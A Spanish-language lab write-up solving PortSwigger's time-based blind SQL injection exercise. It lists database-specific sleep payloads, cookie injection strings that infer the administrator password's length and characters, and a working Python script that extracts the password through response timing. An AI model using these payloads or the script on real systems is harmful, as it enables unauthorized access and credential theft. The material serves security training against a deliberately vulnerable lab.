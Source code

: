```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger)


## Consigna
Este laboratorio contiene una vulnerabilidad de inyección SQL en una cookie de seguimiento y realiza una consulta SQL que contiene el valor de la cookie presentada.

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

Se nos pide iniciar sesión como usuario administrador, además de indicarnos que existe una tabla `users` con columnas llamadas `username` y `password`.


## Resolución con Python
Utilizando la herramienta ZAP y el navegador que este nos proporciona, vamos a intervenir nuestra consultas y visitaremos la página principal del sitio web. El enunciado menciona que la vulnerabilidad se encuentra en la cookie de seguimiento `TrakingId` por lo que vamos a trabajar sobre la misma.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las siguientes formas para cada tipo de base:
**Oracle: ** `dbms_pipe.receive_message(('a'),10)`
**Microsoft: ** `WAITFOR DELAY '0:0:10'`
**PostgreSQL:**`SELECT pg_sleep(10)`
**MySQL**`SELECT SLEEP(10)`

Por lo que modificando el `TrakingId` de la siguiente manera podemos validar la misma:
`TrakingId=XXXXXXXX'||(SELECT pg_sleep(5))-- -; `

Bien, sabemos que la vulnerabilidad esta presente, tenemos que extraer la contraseña del administrador y para eso necesitamos conocer la longitud de la misma, 

`TrakingId=XXXXXXXX'||(SELECT case when (1=1) then pg_sleep(5) else pg_sleep(0) end from users where useranme='administrator' and length(password)>=15)--+-;`

De esta manera solo debemos ir variando el número hasta que:



Conocemos que la longitud es 20, ahora debemos extraer la contraseña, teniendo en cuenta que conocemos la tabla, las columnas y hasta el nombre del usuario (administrador), una forma simple y eficaz sería la siguiente:
`TrakingId=XXXXXXXX'||(SELECT case when substring(password,%d,1)='%s' then pg_sleep(5) else pg_sleep(0) end from users where username='administrator')--+-;`

De esta manera podemos ir probando entre las diferentes combinaciones donde esta %d (para ir iterando entre cada posición de la contraseña del 1 al 20) y %s (para iterar sobre todas posibles opciones las cuales incluyen los caracteres alfanuméricos).

Para automatizar las consultas podemos apoyarnos en un script en Python3:

```python
#!/usr/bin/python3
import requests,time,sys,string

main_url = 'https://BURPSUITE-LAB/filter?category=Pets' #URL Del laboratorio

characters = string.ascii_lowercase + string.digits #Caracteres alfanuméricos

def makeRequest():
    print("Iniciando SQLi")
    password = ""

    for position in range(1,21): #Posiciones de la contraseña del 0 al 20
        for character in characters:

            cookies = {
                    'TrackingId':"XYZ'||(select case when substring(password,%d,1)='%s' then pg_sleep(2) else pg_sleep(0) end from users where username='administrator')-- -" %(position,character),
                    'session':'session Cookie'}
            time_start=time.time()
            r = requests.get(main_url, cookies=cookies)
            time_end = time.time()

            if time_end - time_start > 2: #Tiempo de respuesta mayor a 2 segundos (inyeccion exitosa)
                password += character
                print("Password: %s (%s)"%(password,position))
                break

if __name__ == '__main__':
    makeRequest()
```
Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, tendríamos que incluir dentro del arreglo de "characters" todos los caracteres posibles para la contraseña (Letras mayúsculas, caracteres especiales etc).


La desventaja de esta tecnica es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realizara mediante un script para automatizarlo, si lo que queremos es optimizar la cantidad de consultas, podemos apoyarnos en los consejos de optimización nombrados en la sección [4.1 Inyeccion SQL ciega con respuestas condicionales](https://spassarop.github.io/test-page/injection_types/blind/conditional_type#optimizaciones)



